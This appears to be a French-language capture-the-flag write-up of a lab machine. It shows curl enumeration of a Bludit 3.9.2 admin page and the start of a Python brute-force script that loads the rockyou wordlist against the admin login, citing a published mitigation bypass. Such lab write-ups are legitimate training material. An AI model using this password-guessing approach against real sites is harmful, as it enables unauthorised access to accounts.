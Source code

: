 ```
kali@kali:~$ curl  http://10.10.10.191/admin/ | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2385  100  2385    0     0  15690      0 --:--:-- --:--:-- --:--:-- 15794

****** BLUDIT ******
[username            ]
[********************]
⁰ Remember me
Login

```

On découvre une application Bludit en version 3.9.2 selon la source HTML de la page.

```
kali@kali:~$ curl  http://10.10.10.191/admin/ 
<!DOCTYPE html>
<html>
<head>
        <title>Bludit</title>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <meta name="robots" content="noindex,nofollow">

        <!-- Favicon -->
        <link rel="shortcut icon" type="image/x-icon" href="/bl-kernel/img/favicon.png?version=3.9.2">

        <!-- CSS -->
        <link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">
<link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/admin/themes/booty/css/bludit.css?version=3.9.2">
```

![image-20200605083719998](/assets/img/image-20200605083719998.png)

Il existe une faiblesse de protection contre le bruteforce. POC ici : https://rastating.github.io/bludit-brute-force-mitigation-bypass/

#### POC

```
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'admin'

# My modification
# wordlist = []

filename = "/usr/share/wordlists/rockyou.txt"
with open(filename) as file:
    content = file.readlines()
    word1 = [x.strip() for x in content] 
wordlist = word1

# Generate 50 incorrect passwords
# for i in range(50):
#    wordlist.append('Password{i}'.format(i = i))

```
